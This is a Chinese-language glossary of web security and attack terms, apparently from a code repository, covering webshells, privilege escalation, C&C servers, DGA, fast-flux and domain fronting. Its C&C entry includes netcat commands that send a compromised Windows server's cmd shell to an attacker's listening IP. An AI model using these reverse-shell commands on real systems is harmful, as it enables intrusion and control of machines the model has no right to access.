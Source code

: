 Web 安全术语
================================

后门
--------------------------------
绕过安全控制而获取对程序或系统访问权的方法。后门的最主要目的就是方便以后再次秘密进入或者控制系统。

Webshell
--------------------------------
Webshell 就是以 asp、php、jsp 或者 cgi 等网页文件形式存在的一种命令执行环境，也可以将其称作为一种网页后门。

0day漏洞
--------------------------------
通常是指还没有补丁的漏洞。也就是说官方还没有发现或者是发现了还没有开发出安全补丁的漏洞。

Exploit
--------------------------------
简称 exp，漏洞利用。

提权
--------------------------------
提高自己在服务器中的权限，主要针对网站入侵过程中，当入侵某一网站时，通过各种漏洞提升 Webshell 权限以夺得该服务器权限。

跳板
--------------------------------
跳板，简单来说，就是在进行攻击或渗透时，不直接发起，而是控制一台中间主机来进行。这台中间主机就成为跳板。

拖库
--------------------------------
网站遭到入侵后，黑客窃取其数据库。

社会工程学
--------------------------------
一种通过对受害者心理弱点、本能反应、好奇心、信任、贪婪等心理陷阱进行诸如欺骗、伤害等危害手段取得自身利益的手法，已成迅速上升甚至滥用的趋势。

Apt 攻击
--------------------------------
高级持续性威胁。 利用先进的攻击手段对特定目标进行长期持续性网络攻击的攻击形式。

CC 
--------------------------------
CC = Challenge Collapsar，意为“挑战黑洞”，其前身名为Fatboy攻击，是利用不断对网站发送连接请求致使形成拒绝服务的目的。

C&C
--------------------------------
C&C服务器全称是 Command and Control Server，翻译过来就是命令和控制服务器.通常在做渗透测试的时候，在拿到一个 webshell的时候，需要对服务器进行提权操作，如果是一台 windows 的服务器，提权的时候通常是利用本地提权漏洞的 exp 进行溢出提权，有些 exp 可以直接在后面加参数，溢出成功之后执行参数中的命令。而有的 exp溢出成功之后是返回一个 system 权限的 cmd，这时就需要将低权限的 cmd shell 反弹回本地，这里用 nc 在本地执行：nc -vv -lp 3333.上述命令的意思是在本地监听一个 3333 端口等待连接，假设电脑 IP 是公网的，并且 IP 为 114.114.114.114，然后在目标服务器就可以执行：nc 114.114.114.114 3333 -e cmd.exe.
上面的命令就可以把远程服务器的服务器权限的 cmd shell 返回到本地，这时你就可以通过 nc 建立的这个 shell 进行通信，发送你要执行的命令，在远程服务器接收到命令之后执行并将结果返回，这时本机电脑就是一个简易的 C&C 服务器。

DGA
---------------------------------
DGA域名生成算法经常被用作恶意软件连接C2中控。在早期的僵尸网络中，控制者通常会把C&C服务器的域名或者IP地址硬编码到恶意程序中，僵尸主机通过这些信息定时访问C&C主机获取命令。但同时安全人员也能够通过逆向恶意程序，得到C&C服务器的域名或者IP，利用这些信息定位C&C主机，安全人员就可以隔断C&C主机从而破坏僵尸网络。恶意软件定期使用DGA算法生成为随机域名，有效绕过黑名单检测，尝试连接，寻找C2中控。如果一个生成的域名无法连接，便生成下一个DGA为随机域名进行连接尝试。IP被阻断C2换一个域名可以继续操作。大多数dga域名在互联网环境是访问不到的，为什么？因为没有注册，黑客可以在软件中会写多个dga域名，在确认使用攻击时注册若干个，然后中招的机器接入互联网就可以与dga域名进行通信了。

Fast-flux
---------------------------------
在正常的DNS服务器中，用户对同一个域名做DNS查询，在较长的一段时间内，无论查询多少次返回的结果基本上是不会改变的。Fast-flux技术是指不断改变域名和IP地址映射关系的一种技术，也就是说在短时间内查询使用Fast-flux技术部署的域名，会得到不同的结果.
 | 客户端两次访问www.example.com的过程如下：
 | 1)为了得到网站www.example.com的IP地址，客户端发起DNS查询。
 | 2)随后DNS服务器返回了一个IP地址1.2.3.4，同时TTL为一个很小的数值。
 | 3)客户端访问IP为1.2.3.4的服务器获取内容。
 | 4)IP为1.2.3.4的服务器响应请求，返回相应内容。
 | 5)客户端再次访问www.example.com，由于TTL过小，本地缓存的DNS记录失效，客户端需要再次向DNS服务器获取新的IP地址。
 | 6)此次DNS服务器返回了IP 4.3.2.1，这次的TTL仍然很小。
 | 7)客户端访问IP为4.3.2.1的服务器获取内容。
 | 8)IP为4.3.2.1的服务器响应请求，返回相应内容。

POC
---------------------------------
即Proof of Concept，漏洞验证程序，功能为检测漏洞是否存在。poc和exp(全称Exploit)的区别就是，poc是漏洞验证程序，exp是漏洞利用程序。

通用型漏洞
---------------------------------
有一定使用量或者说是用户量的第三方框架、软件、应用、系统等对应的漏洞，拿web层应用来说需要满足：
 | 1)两个站点以上使用了该应用，可参考cnvd（国家信息安全漏洞共享平台）的漏洞；
 | 2)路径固定、参数固定。

域前置
---------------------------------
Domain Fronting，中文译名 “域前置” 或 “域名前置”，用于隐藏服务器真实ip并伪装成高信誉域名与目标通讯，来规避IDS的流量检测和审计，Domain Fronting 的核心技术是 CDN。

url#锚点
---------------------------------
在url种第一个#后面出现的任何字符，都会被浏览器解读为位置标识符。这意味着，这些字符都不会被发送到服务器端，#是用来指导浏览器动作的。
